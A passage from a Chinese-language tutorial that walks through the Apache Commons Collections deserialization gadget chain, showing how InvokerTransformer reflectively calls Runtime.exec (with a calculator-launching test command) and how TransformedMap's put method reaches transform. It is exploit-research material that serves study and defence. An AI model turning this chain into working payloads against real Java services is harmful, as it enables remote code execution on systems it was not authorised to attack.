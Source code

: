 可以看到transform方法其实是存在一个任意方法调用的，我们可以根据初始化对象时传入的参数通过反射的方法实现任意方法调用，举例：

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});
invokerTransformer.transform(r);
```

# TransformedMap

很显然，InvokerTransformer是我们最终的漏洞利用点，那接下来我们显然需要一直往上寻找调用点，看看有没有一个类的readObject方法调用了transform方法，这样才有可能能实现反序列化利用，我们往上查看有哪些调用了transform方法的新类，这里注意到的是`org.apache.commons.collections.map.TransformedMap`类有三处地方执行了transform方法，具体可以又分为两种不同的情况：

## put调用

注意到在TransformedMap中有两个类似的方法都调用了transform方法，分别是：

```java
protected Object transformKey(Object object) {
  if (keyTransformer == null) {
    return object;
  }
  return keyTransformer.transform(object);
}
```

```java
protected Object transformValue(Object object) {
  if (valueTransformer == null) {
    return object;
  }
  return valueTransformer.transform(object);
}
```

注意到这两者都被TransformedMap类的put方法调用了：

```java
public Object put(Object key, Object value) {
  key = transformKey(key);
  value = transformValue(value);
  return getMap().put(key, value);
}
```

从其方法我们显然可以想到，假如我们可以控制一个TransformedMap对象的keyTransformer或valueTransformer为上面的invokerTransformer，再对这个TransformedMap对象执行put操作往key或者value传入一个上面的r，那便也可以实现命令执行了。查看TransformedMap的构造方法：

```java
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
  super(map);
  this.keyTransformer = keyTransformer;
  this.valueTransformer = valueTransformer;
}
```
